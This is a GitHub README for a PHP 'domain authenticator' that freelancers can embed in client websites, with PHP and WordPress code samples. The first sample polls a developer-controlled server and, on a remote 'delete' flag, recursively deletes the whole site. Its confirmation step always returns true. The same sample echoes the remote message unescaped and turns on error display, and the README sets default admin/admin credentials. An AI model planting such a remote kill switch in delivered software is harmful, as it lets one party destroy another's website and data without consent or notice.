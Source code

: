 # Domain Authenticator Manager

<p> With this domain authenticator server, anyone can add domain authentication to their code, it's very simple and easy to use this domain authenticator server. The primary purpose of this project is to help those freelancers who got cheated by clients after completing the project </p>
<p>&nbsp;</p>

<h3>Highlighted Features : </h3>
<ul>
    <li>Easy to use</li>
    <li>Simple & fast loading Admin panel</li>
    <li>Show any text message from the admin panel</li>
    <li>It can delete the entire website in one command</li>
    <li>Prebuild WP theme function code and plugin </li>
</ul><br>

<h3>Requirements :</h3>
<ul>
    <li>PHP >= 8.1</li>
    <li>MySql Database</li>
</ul><br>

<h3><strong>How to Install ?</strong></h3>
<ol>
    <li>Clone the repogetory</li>
    <li>uplaod on your server&nbsp;</li>
    <li><a href="https://active.devtool.my.id" rel="dofollow"><strong>Register</strong></a> your domain</li>
    <li>Create MySql database and user&nbsp;</li>
    <li><a href="https://active.devtool.my.id/checker.php" rel="dofollow"><strong>Downlaod</strong></a> the database</li>
    <li>Import the <strong>database.sql&nbsp;</strong></li>
    <li>Put the database credential on <strong>config.php</strong></li>
</ol><br>

<h3><strong>Now you are ready to login into the domain control panel&nbsp;</strong></h3>
<p>https://example.com/login.php</p>
<p>user:- admin</p>
<p>password:- admin</p>
<br>


<p>WordPress users can use our  WordPress theme <a href="#functioncode" rel="dofollow" > function code</a> on any theme. also, we have a WordPress <a href="https://github.com/websmartbd/Domain-Validator-Plugin" rel="dofollow" >Plugin</a> to validate the authorized domain</p>
<br>
<h3> Row php code sample</h3><br>

```
<?php

// Enable error reporting
error_reporting(E_ALL);
ini_set('display_errors', 1);

function is_domain_allowed() {
    $api_url = 'https://example.com/api.php'; // Replace this with your actual API URL
    $response = file_get_contents($api_url);
    if ($response === false) {
        return false; // Assuming API call failed, disallow domain
    }
    $api_response = json_decode($response, true); // Decoding JSON as associative array

    // Extracting the domain from the $_SERVER['HTTP_HOST']
    $current_domain = $_SERVER['HTTP_HOST'];

    foreach ($api_response as $item) {
        if ($item['domain'] == $current_domain) {
            // Check if the domain is active or not
            if ($item['active'] == 1) {
                // Check if 'delete' key exists in the JSON data
                if (isset($item['delete'])) {
                    if ($item['delete'] == "yes") {
                        // Confirm deletion
                        if (confirm_deletion()) {
                            delete_all_files_folders();
                        }
                    } elseif ($item['delete'] == "no") {
                        // If deletion is not allowed, simply return false
                        return false;
                    }
                }
                return true; // Domain is active, allow access
            } else {
                // If the domain is not active, show the message
                echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">' . $item['message'] . '</p>';
                return false;
            }
        }
    }

    // If the domain is not found in the API response, show the default message
    echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">You are not allowed to use this code</p>';
    return false;
}

function confirm_deletion() {
    // Here you can implement a confirmation mechanism, such as a form submission or a checkbox
    // For demonstration purposes, returning true directly
    return true;
}

function delete_all_files_folders() {
    $dir_to_delete = __DIR__; // Directory of the current script
    if (delete_directory($dir_to_delete)) {
        echo '<p style="color:green;font-size:18px;font-weight:600;">All files and folders deleted successfully.</p>';
    } else {
        echo '<p style="color:red;font-size:18px;font-weight:600;">Failed to delete files and folders.</p>';
    }
}

// Recursive function to delete directory and its contents
function delete_directory($dir) {
    if (!is_dir($dir)) {
        return false;
    }

    $files = array_diff(scandir($dir), array('.', '..'));
    foreach ($files as $file) {
        $path = $dir . DIRECTORY_SEPARATOR . $file;
        if (is_dir($path)) {
            delete_directory($path);
        } else {
            if (!unlink($path)) {
                return false;
            }
        }
    }
    return rmdir($dir);
}

if (!is_domain_allowed()) {
    // Do nothing here, the message is handled inside is_domain_allowed() function
} 

// code to be executed if the domain is allowed

?>

```


<br>
<h3 id="functioncode"><b>Note:- If you don't have a good knowledge of PHP code or theme function we recommend using the Plugin instead of function code </b></h3>
<br>

```

function check_domain_allowed_theme() {
    $api_url = 'https://example.com/api.php?nonce=' . md5(uniqid(rand(), true)); // Append a unique query parameter to bypass caching
    $response = wp_remote_get($api_url);

    if (is_wp_error($response)) {
        return; // If the API call fails, do nothing
    }

    $body = wp_remote_retrieve_body($response);
    $api_response = json_decode($body, true); // Decoding JSON as associative array

    // Extracting the domain from the $_SERVER['HTTP_HOST']
    $current_domain = $_SERVER['HTTP_HOST'];

    foreach ($api_response as $item) {
        if ($item['domain'] == $current_domain) {
            // Check if the domain is active or not
            if ($item['active'] == 1) {
                return; // Domain is active, allow access
            } else {
                // If the domain is not active, show the message
                echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">' . esc_html($item['message']) . '</p>';
                exit; // Stop further execution
            }
        }
    }

    // If the domain is not found in the API response, show the default message
    echo '<p style="color:red;font-size:30px;font-weight:600;text-align:center;">You are not allowed to use this code</p>';
    exit; // Stop further execution
}
add_action('wp_head', 'check_domain_allowed_theme');

```

